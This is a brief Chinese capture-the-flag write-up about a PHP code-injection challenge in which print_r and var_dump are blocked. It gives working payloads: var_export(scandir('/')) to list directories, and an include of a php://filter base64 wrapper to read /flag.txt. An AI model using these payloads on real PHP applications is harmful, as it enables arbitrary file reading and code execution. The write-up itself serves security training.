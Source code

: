 ![image-20241128234507588](../assets/image-20241128234507588.png)



这题相比上一题，print_r() 和 var_dump() 也被禁用了

我们可以通过寻找其他可以打印数组的函数来打印目录

我们可以通过var_export()来代替，从而打印目录

```
c=var_export(scandir("/"));
```

![image-20241129130708792](../assets/image-20241129130708792.png)

接下读flag即可

```
c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=/flag.txt
```



其他的解法：

查文件
